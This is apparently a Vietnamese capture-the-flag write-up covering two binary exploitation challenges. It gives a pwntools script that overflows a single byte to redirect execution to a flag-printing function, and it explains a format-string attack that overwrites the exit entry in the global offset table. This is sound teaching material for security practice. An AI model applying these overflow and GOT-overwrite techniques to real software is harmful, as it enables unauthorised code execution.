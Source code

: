 mình dùng gdb để kiểm tra thấy đúng là 2 hàm này ngay cạnh nhau 
![image](https://hackmd.io/_uploads/Sy0zRSgD6.png)
May mắn thay hàm Bye và cat_flag chỉ khác nhau byte cuối cùng chỉ cần tràn byte cuối cùng bằng giá trị 8b là chúng ta thay đổi luồng thực thi sang cat_flag

```python=
#!/usr/bin/python3.7

from pwn import *
context.binary = exe = ELF('./Bufferoverflow-1-byte')

p = process(exe.path)

# input()

payload = b'A'* 16
payload += b'\x8b'
p.sendline(payload)

p.interactive()
```


![image](https://hackmd.io/_uploads/rk8418lv6.png)

và mình được flag là:
**KMA{ONE BYTE IS ALL YOU NEED}**

## Formatstring-write-GOT
mình đọc source code được:
![image](https://hackmd.io/_uploads/rJAkVMDPp.png)
bài này bị lỗi format string do chúng ta nhập tùy ý giá trị vào biến buff và in ngay ra tại tham số đầu tien chuyền vào hàm print cho phép ta thực hiện chuỗi định dạng. Thay vì sử dụng format string “%s” thì ở đây lại xuất chính chuỗi buff ra
Ngay sau khi xuất chuỗi buff ra sẽ gọi hàm exit. Không thể điều khiển được con trỏ trả về như bài Bufferoverflow-homemade-cookie-v1 đến v3 vì chúng ta không thể leak được địa chỉ stack khi thực thi. Tuy nhiên chương trình lại gọi exit. Exit không có trong source và chương trình sẽ tạo liên kết động vậy ta chỉ cần chỉnh sửa liên kết này là có thể điều khiển luồng thực thi vào hàm cat_flag. Vì các hàm như print() hay exit() không có trong chương trình mà là của thư viện nên khi gọi đến lần đầu chúng sẽ được tìm trong thư viện chuẩn và lưu địa chỉ vào bảng GOT(Global Offset Table) để tiện cho quá trình gọi sau này 
![image](https://hackmd.io/_uploads/r14UjMwPT.png)
    
![image](https://hackmd.io/_uploads/Hy2I2MDDp.png)


![image](https://hackmd.io/_uploads/HJMwAGvvT.png)
Ta thấy ngay đầu hàm exit đã gọi jump đến giá trị nằm ở địa chỉ 0x804a018 chỉ cần thay đổi giá trị ô nhớ này thành địa chỉ của cat_flag là ta có thể lấy được flag
Giá trị ô 0x804a018 chỉ khác vs địa chỉ hàm cat_flag 2 byte sau như vậy ta chỉ cần dùng “%hn” ghi 1 lần là đủ.
